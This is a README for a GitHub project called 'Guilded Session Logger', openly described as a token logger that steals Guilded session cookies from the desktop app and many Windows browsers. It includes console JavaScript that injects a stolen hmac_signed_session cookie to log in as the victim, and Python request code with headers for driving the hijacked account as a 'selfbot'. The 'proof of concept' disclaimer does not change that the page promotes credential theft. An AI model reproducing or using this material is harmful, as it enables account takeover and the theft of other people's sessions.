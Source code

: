 # Guilded Session Logger
A token logger; except for Guilded!

Enjoyed the repository? Please star it!

### POC
This repository is a proof of concept. The owner(s) and member(s) of this repository and organization take no responsibility for your actions.

### Important
This project logs session cookies. This means that your cookie may expire, unlike Discord tokens.

## What's Supported?
Windows only.
- **Guilded (desktop app)**
- **Reguilded (modified desktop app)**
- **Google Chrome**
- **Google Chrome Canary (Google Chrome SxS)**
- **Microsoft Edge**
- **Opera**
- **Opera GX**
- **Brave**
- **Firefox**
- Iridium (UNTESTED)
- Yandex (UNTESTED)
- Uran (UNTESTED)
- Amigo (UNTESTED)
- Torch (UNTESTED)
- Kometa (UNTESTED)
- Orbitum (UNTESTED)
- CentBrowser (UNTESTED)
- 7Star (UNTESTED)
- Sputnik (UNTESTED)
- Vivaldi (UNTESTED)
- Epic Privacy Browser (UNTESTED)

# Contributing
Issues and pull requests welcome!

If you tested this on a UNTESTED browser, make an issue!

# License
Read the [License](LICENSE)

# Logging in with a cookie
(Desktop only)
1. Open dev tools. (Ctrl + Shift + I on Windows, Command + Option + I on Mac)
2. Select "Console"
3. Paste the following into the console:
```javascript
function login(sessionCookie) {
  document.cookie = `hmac_signed_session=${sessionCookie}`;
  document.cookie = "authenticated=True";
  document.location.reload();
}

var loginCookie = 'your cookie in quotes or apostrophe here';
login(loginCookie);
```

# Making a request with a cookie
So you want to make a selfbot of a sort?

### Headers
These headers stay the same for most requests. You can always check the headers in the Network tab of Dev Tools if needed!
```json
{
    "accept": "application/json, text/javascript, */*; q=0.01",
    "accept-encoding": "gzip, deflate, br",
    "accept-language": "en-US,en;q=0.9",
    "referer": "https://www.guilded.gg/",
    "sec-ch-ua": '"Not.A/Brand";v="8", "Chromium";v="114", "Microsoft Edge";v="114"',
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": '"Windows"',
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
    "x-requested-with": "XMLHttpRequest"
}
```

## Python
```python
import requests
loginCookie = 'your login cookie here'

url = 'your request url here'
cookies = [
    ("hmac_signed_session", loginCookie),
    ("authenticated", "true"),
    ("gk", "electron_background_worker_watchdog%2Cuse_rtc_voice_connection%2Cmultiple_files_drag_drop%2Cshow_ptt_warning_banner%2Cnative_reaction_motion%2Cenable_progressive_image_uri_string%2Cenable_async_reactions%2Cnative_emotes_settings_screen%2Cserver_subs_prevent_native_subscribe_flow_ios%2Cenable_remove_reactions%2Cwebview_inject_cookies_disabled%2Cnative_audit_log_screen%2Candroid_soft_haptic_feedback%2Cenable_media_renderer_from_alternate_srcs%2Cwebrtc_vad%2Cmentionables_v2%2Cenable_scrollbar_v2%2Cwhimsical_bot_icons%2Cpause_stream_preview_unfocused%2Cnative_loopback_capture%2Crole_icon%2Creaction_picker_navbar_on_native%2Cmobile_virtualized_sidebar%2Cstyle_ios_text_input%2Cstyle_android_text_input%2Ccan_edit_socket_permissions%2Cyt_allow_custom_name%2Cchat_message_context_menu%2Cprofile_hover_card_v3%2Cpartner_program_v2%2Cvideo_streaming_pip_view_enabled%2Cshow_game_presence%2Cnative_update_app_overlay")
]
headers = {
    "accept": "application/json, text/javascript, */*; q=0.01",
    "accept-encoding": "gzip, deflate, br",
    "accept-language": "en-US,en;q=0.9",
    "referer": "https://www.guilded.gg/",
    "sec-ch-ua": '"Not.A/Brand";v="8", "Chromium";v="114", "Microsoft Edge";v="114"',
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": '"Windows"',
    "sec-fetch-dest": "empty",
    "sec-fetch-mode": "cors",
    "sec-fetch-site": "same-origin",
    "x-requested-with": "XMLHttpRequest"
}
payload = {} # your payload here. If no payload, put None
requests.request('method', headers=headers, payload=payload, cookies=dict(cookies), url=url)
```
